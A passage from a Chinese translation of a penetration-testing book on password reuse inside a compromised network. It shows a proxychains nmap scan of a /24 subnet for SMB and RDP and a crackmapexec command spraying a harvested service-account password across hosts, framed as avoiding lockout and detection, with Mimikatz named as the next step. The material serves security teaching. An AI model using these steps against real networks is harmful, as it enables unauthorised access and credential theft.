 ![netstat&#x663E;&#x793A;&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.2-1.jpg)

IP 10.10.20.118 显然不属于DMZ区。让我们试一试这个IP段。作为一个谨慎的黑客，我们先假设这是一个C段网络，后面再根据情况调整假设条件。

## 4.3 密码重用

我们的密码字典已经够用了，因此不需要在此IP段上寻找新的漏洞。毕竟，我们已经可以模拟普通用户登录了，为啥还要寻找复杂的漏洞？我们的策略是在所有Windows计算机上使用已经获得的凭据进行简单身份验证。

这不是典型的暴力破解攻击（一个帐户，多个密码），而是“成对的暴力破解” \[67\]：在每台计算机上，我们尝试使用相同的帐户/密码。这样可以避免帐户被锁定，也可以避免触发任何检测规则\[68\]。

我们的想法是找到一台已经入域的服务器，且该服务器的本地用户刚好在我们密码字典中。一个C段有253个IP，只要其中一个满足，就可以再次执行Mimikatz获取更多密码。但是这次，我们可能会获得域帐户-甚至是特权域帐户。

首先，为缩小目标机的范围，我们启动nmap去扫描开放了445端口的目标主机。经验表明3389端口很有用是，所以也添加了进来。

```text
FrontGun$ Proxychains nmap -n -p455,3389 10.10.20.0/24
Starting Nmap 7.00 ( https://nmap.org ) at 2016-12-26 22:56 CET
    Nmap scan report for 10.10.20.27 
    445/tcp open    microsoft-ds 
    3389/tcp closed ms-wbt-server

    Nmap scan report for 10.10.20.90 
    445/tcp open    microsoft-ds 
    3389/tcp filtered ms-wbt-server

    Nmap scan report for 10.10.20.97 
    445/tcp open    microsoft-ds 
    3389/tcp closed ms-wbt-server

    Nmap scan report for 10.10.20.118 
    445/tcp open microsoft-ds 
    3389/tcp open ms-wbt-server

    Nmap scan report for 10.10.20.210 
    445/tcp open    microsoft-ds 
    3389/tcp filtered ms-wbt-server

    Nmap scan report for 10.10.20.254 
    445/tcp filtered microsoft-ds 
    3389/tcp filtered ms-wbt-server
```

考虑到我们正在从蓝区访问这些服务器，可以预见到一些端口会被过滤掉。

在我们拿到的所有帐户中，**svc\_mnt** 看起来最有希望。它看起来像是一个用于管理某种应用程序的服务帐户。因此，相比其他账户，它在其他服务器上被创建的可能性更高。我们使用该帐户启动 CME：

```text
FrontGun$ proxychains crackmapexec -u svc_mnt -p Hello5\!981 -d WORKGROUP 10.10.20.27 10.10.20.90 10.10.20.97 10.10.20.118 10.10.20.210
```

